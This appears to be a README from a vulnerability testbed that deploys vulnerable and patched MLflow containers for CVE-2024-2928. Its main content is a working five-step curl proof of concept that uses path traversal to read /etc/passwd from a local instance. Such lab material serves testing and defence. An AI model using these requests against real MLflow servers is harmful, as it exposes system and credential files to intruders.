# MLflow CVE-2024-2928

This directory contains the deployment config for MLflow instances vulnerable and fixed to CVE-2024-2928. MLflow versions below 2.11.2 are vulnerable to that arbitrary file read vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following five curl commands. In a vulnerable environment, after the final curl request, you can see the /etc/passwd file content in the response.
```
# Create a malicious experiment:
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc", "artifact_location": "http:///#/../../../../../../../../../../../../../../etc/"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/experiments/create'

# Associate a run to it (EXPERIMENT_ID is coming from the first curl request's response):
curl -X POST -H 'Content-Type: application/json' -d '{"experiment_id": "EXPERIMENT_ID"}' 'http://127.0.0.1:5000/api/2.0/mlflow/runs/create'

# Create a registered model:
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/registered-models/create'

# Link a model version to the malicious run (RUN_ID is coming from the second curl request's response. It is below the lifecycle_stage key in the JSON response):
curl -X POST -H 'Content-Type: application/json' -d '{"name": "poc", "run_id": "RUN_ID", "source": "file:///etc/"}' 'http://127.0.0.1:5000/ajax-api/2.0/mlflow/model-versions/create'

# Read /etc/passwd:
curl 'http://127.0.0.1:5000/model-versions/get-artifact?path=passwd&name=poc&version=1'
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
```
docker run -p 127.0.0.1:5000:5000 ghcr.io/mlflow/mlflow:v2.11.3 mlflow server --host 0.0.0.0 --port 5000
```

The deployed service listens on `localhost:5000` after the docker completes its job.

## Vulnerable version
```
docker run -p 127.0.0.1:5000:5000 ghcr.io/mlflow/mlflow:v2.9.2 mlflow server --host 0.0.0.0 --port 5000
```

The deployed service listens on `localhost:5000` after the docker completes its job.

